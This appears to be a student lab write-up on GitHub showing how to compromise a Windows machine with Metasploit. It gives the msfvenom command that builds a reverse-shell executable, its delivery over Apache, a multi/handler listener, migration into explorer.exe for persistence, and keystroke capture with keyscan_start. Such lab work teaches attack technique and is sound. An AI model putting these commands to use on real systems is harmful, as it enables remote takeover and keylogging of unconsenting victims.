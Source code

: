 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig


![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/cf251bc1-fc86-4b15-b5d9-29fa31ffebcb)

malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/458c846c-2619-416a-8749-a64012abceb8)

the fun.exe into the apache /var/www/html folder

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/976a0f17-441e-4eb6-b2de-8ba013918dfe)

Start apache server sudo systemctl apache2 start

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/7cd3ca21-3d30-43c6-a305-120df534dae1)

Check the status of apache2 Invoke msfconsole: msfconsole

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/e5635700-4693-403d-931c-cfe3b705bba3)



![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/82c638bb-7046-4398-8aa2-dfb8165d27f5)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/30fd8cf0-e825-401c-9c93-c60489800055)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/190f6175-71bb-4ed8-8ecb-70e691a0b1c7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/b85393dd-bad8-41a3-9c75-f276c8c23ed0)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/2dc24573-f7dc-49b1-8e67-2345e613ccaf)

On kali give the command exploit

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/e5d3d197-215f-4aac-889e-afda3291b4cc)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156


![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/539dec42-4904-428d-9614-425c9f4c763f)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/78b2c83e-1f00-4565-98c5-dd41777ae904)

Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/6fc39d4b-5c86-42f6-a66c-0b37f958f4f9)

the keystrokes captured so far.

![image](https://github.com/srinivasanvaiyali/Compromising-windows-using-Metasploit/assets/145117665/ed2aa6a6-5a0b-4cd4-b078-e7fe7e0058ed)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
